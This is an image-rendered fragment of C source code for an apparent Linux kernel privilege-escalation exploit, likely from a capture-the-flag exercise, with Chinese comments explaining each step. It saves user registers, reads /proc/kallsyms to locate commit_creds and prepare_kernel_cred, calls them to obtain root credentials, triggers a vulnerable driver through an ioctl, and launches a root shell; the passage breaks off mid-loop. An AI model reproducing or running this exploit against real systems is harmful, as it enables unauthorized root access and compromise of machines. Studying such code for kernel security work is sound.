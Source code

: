 ```c
    asm volatile(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;");
    info("Status has been saved.");
}

void get_root_shell(void)
{
    if (getuid())
    {
        error("Failed to get the root!");
        exit(-1);
    }

    success("Successful to get the root. Execve root shell now...");
    system("/bin/sh");
}

void get_root_privilige()
{
    void *(*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    void *(*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

void baby_ioctl(int lfd, size_t len)
{
    ioctl(lfd, 0x10001, len);
}

int main()
{
    info("Starting to exploit...");

    // 保存当前寄存器状态
    save_status();

    // 通过kallsyms，可以查看所有函数的地址（未设置kptr_restrict）
    FILE *sym_fd = fopen("/proc/kallsyms", "r");
    if (sym_fd < 0)
    {
        error("Open /proc/kallsyms Failed.");
        exit(0);
    }

    // 写循环，查找所需函数prepare_kernel_cred和commit_creds的地址
    size_t address = 0;
    char type[2];
    char func[0x50];
    while (fscanf(sym_fd, "%llx%s%s", &address, type, func))
    {
        // info("The function name is %s, while address is 0x%lx.", func, address);
        if (commit_creds && prepare_kernel_cred && init_cred)
        {
            success("The address of functions are all found.");
            break;
        }
        if (!strcmp(func, "prepare_kernel_cred"))
        {
            prepare_kernel_cred = address;
```